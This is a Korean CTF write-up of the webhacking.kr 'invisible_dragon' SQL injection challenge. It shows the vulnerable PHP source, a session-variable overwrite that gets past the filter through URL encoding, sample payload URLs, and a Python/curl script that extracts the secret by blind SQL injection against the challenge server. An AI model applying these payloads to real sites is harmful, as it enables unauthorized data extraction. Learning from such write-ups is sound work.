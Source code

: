 ```yaml
---
title: ["[Webhacking.kr] invisible_dragon (sqli - 300)"]
date: 2024-12-14 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, blind sqli, convert]
---
```


```php
<?php
include "./config.php";

if (preg_match('/session/isUD', $_SERVER['QUERY_STRING'])) {
    exit('not allowed');
}

//parse_str($_SERVER['QUERY_STRING']);
parse_str($_SERVER['QUERY_STRING'], $arr);
foreach ($arr as $key => $value) {
    $$key = $value;
}

$db = dbconnect();
if (isset($column) && isset($keyword)) {
    if (isset($ie) && !empty($ie)) {
        if (in_array($ie, ['utf8', 'ucs2', 'utf16'])) {
            $_SESSION['format'] = "convert(%s using $ie)";
        } else {
            $_SESSION['format'] = 'convert(%s using latin1)';
        }
    }
    $format = isset($_SESSION['format']) ? $_SESSION['format'] : 'convert(%s using latin1)';
    if (
        preg_match('/^convert\(/', $format) &&
        preg_match('/\)$/', $format)
    ) {
        $column = sprintf($format, $column);
        $column = preg_replace('/[^\w\s(),]/', '', $column);
        if (strlen($column) > 24) {
            exit("no hack!");
        }

        $keyword = addslashes($keyword);
        $query = "select * from prob_invisible_dragon where $column='$keyword'";
        echo "<hr>query : <strong>{$query}</strong><hr><br>";
        $result = @mysqli_fetch_array(mysqli_query($db, $query));
        if ($result) {
            echo "<h2>Search {$result[0]}!</h2>";
        }
    }
}

if (isset($secret)) {
    $query = "select secret from prob_invisible_dragon";
    $result = @mysqli_fetch_array(mysqli_query($db, $query));
    if ($result['secret'] === $secret) {
        echo "<h2>Yes, that is the FLAG what you want ;)</h2>";
    }
}

highlight_file(__FILE__);
?>
```

* URL의 쿼리 스트링에 `session`이라는 문자열이 포함되어 있으면 실행을 중단
  * `i` flag : 대소문자를 구분하지 않고 매칭
  * `s` flag : 개행문자를 포함하여 매칭
  * `U` flag : ungreedy 혹은 lazy 매칭으로 변경
  * `D` flag : `$`문자가 문자열의 절대적인 끝만을 매칭
* URL 쿼리 스트링을 파싱하여 `arr` 배열로 변환
* `column`과 `keyword` 파라미터가 설정되었는지 확인
* `ie` 파라미터가 존재하고 비어있지 않으면, 문자셋 변환 포맷을 설정함. `utf8`, `ucs2`, `utf16`만 허용되며, `ie` 파라미터가 없거나 그 외의 값인 경우우는 `latin1`을 사용
* `format`이 `convert(`로 시작하고 `)`로 끝나는지 확인
* `column`값을 지정된 `format`으로 포맷팅
* 알파벳, 숫자, 언더스코어, 공백, 괄호, 콤마를 제외한 모든 문자를 제거
* `column`의 길이가 24자를 초과하면 실행을 중단
* `keyword`에 특수문자가 있다면 이스케이프 처리하고, SQL 쿼리를 구성


```
http://webhacking.kr:10016?column=username&keyword=admin&ie=utf8
```  
예컨대 다음과 같은 URL로 요청을 했다고 가정하면, 아래와 같은 SQL 쿼리가 생성된다.  
```sql
select * from prob_invisible_dragon where convert(username using utf8)='admin'
```  

코드에서 `parse_str` 함수가 취약한 방식으로 사용되고 있다.  
Variable variables를 사용해 쿼리스트링의 키를 변수 이름으로 직접 사용하기 때문에 어떤 변수든 덮어쓸 수 있다.

`$_SESSION['format']` 변수를 직접 조작해서 써보자.  
정규표현식으로 `session` 문자열을 검사하지만, URL 인코딩으로 간단히 우회가 가능하다.  

문제는 `column`의 길이 제한이다.  
MYSQL에서 `CONVERT()` 함수는  
* CONVERT(expr USING transcoding_name)
* CONVERT(expr, type)
두 가지 방식으로 사용된다.  

아무리 짧게 사용을 해도 `convert({PAYLOAD},char)` 이렇게 구성되므로, 페이로드가 최대 10자리여야 한다.  

먼저 간단히 `'1'='1'`로 테스트를 해보자.  
```
?_SE%53SION[format]=convert(%s,char)&column=1&keyword=1
```

이렇게 파라미터를 주면, SQL 쿼리는 아래와 같이 구성된다.  

```sql
select * from prob_invisible_dragon where convert(1,char)='1'
```

`1`이라는 결과가 나왔다.  

즉, 데이터베이스에는 `secret` 컬럼 하나 뿐이고, 첫번째 값이 `1`이라는 뜻이다.  


```
?_SE%53SION[format]=convert(%s,char(1))&column=secret&keyword=F
?_SE%53SION[format]=convert(%s,char(2))&column=secret&keyword=FL
```
이런 형태로 Blind SQLi를 하면 될 것 같다.  

python requests로 페이로드를 짜다가 인코딩 문제 때문에 화병이 날 뻔 했다.  
`SE%53SION`이 더블인코딩되고, `%s`도 `%25s`로 변환되어 페이로드 길이 제한에 걸렸다.  

결국 requests에서 인코딩을 해결하지 못하고, curl을 사용하기로 했다.  
3%쯤은 모자란 페이로드라 보완방법을 더 고민해봐야겠다.  

```python
import subprocess
from urllib.parse import quote

url = "http://webhacking.kr:10016/"

secret_len = 1
secret = ""

while True:
    for i in range(33, 128):
        payload = f"{url}?_SE%53SION%5Bformat%5D=convert(%s,char({secret_len}))&column=secret&keyword={secret}{quote(chr(i))}"
        result = subprocess.run(['curl', '-s', payload], capture_output=True, text=True)

        if "Search 1!" in result.stdout:
            secret += quote(chr(i))
            secret_len += 1
            print(f"Found: {secret}")
            break
        if i == 127:
            print("Not found")
            exit(1)

```